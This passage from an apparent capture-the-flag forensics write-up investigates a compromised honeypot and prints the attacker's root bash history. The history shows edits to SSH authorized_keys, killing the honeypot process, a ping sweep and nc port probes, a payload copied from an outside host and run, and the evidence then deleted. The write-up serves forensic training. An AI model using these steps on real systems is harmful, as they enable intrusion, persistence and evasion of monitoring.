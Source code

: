 ![Root_Access](assets/img/tryhackme/Honeynetcollapse25/InitialAccessPot/root_access.png)
Attacker now has root access.


### 4) Which IP was port-scanned after the privilege escalation? [Medium: 60 Points]

Now that the attacker has gained root access as evident from the last log.
We'll check ssh logs..
Attacker got access on **06/27/25 22:08:07.413:537**
*(MM/DD/YY HH:MM:SS.milliseconds:event_id)*

No logs in auditd after this point in time so let's check the bash history, we'll use the command:-
```bash
ubuntu@deceptipot-demo:~$ sudo cat /root/.bash_history
hostnamectl set-hostname deceptipot-demo
exit
cd ~
wget https://assets.deceptipot-emea.deceptitech.thm -O ~/deceptipot.zip
cd deceptipot
nano deceptipot.conf
./deceptipot --init
./deceptipot -c deceptipot.conf
ps aux
exit
ls -la ~
nano .ssh/authorized_keys 
cat ~/deceptipot/README.md 
cat ~/deceptipot/deceptipot.conf 
ps aux
pkill deceptipot
ip a
for ip in 172.16.8.{200..254}; do ping -c1 ${ip} & done
nc -w 2 -v 172.16.8.216 22
nc -w 2 -v 172.16.8.216 80
nc -w 2 -v 172.16.8.216 3389
nc -v 172.16.8.216 3389
scp ubuntu@167.172.41.141:~/5841.tar.gz 5841.tar.gz
tar xzf 5841.tar.gz
cd 5841
ls
bash run.sh
cd ..
rm -rf ./5841
rm -rf 5841.tar.gz
exit
ls
exit
```
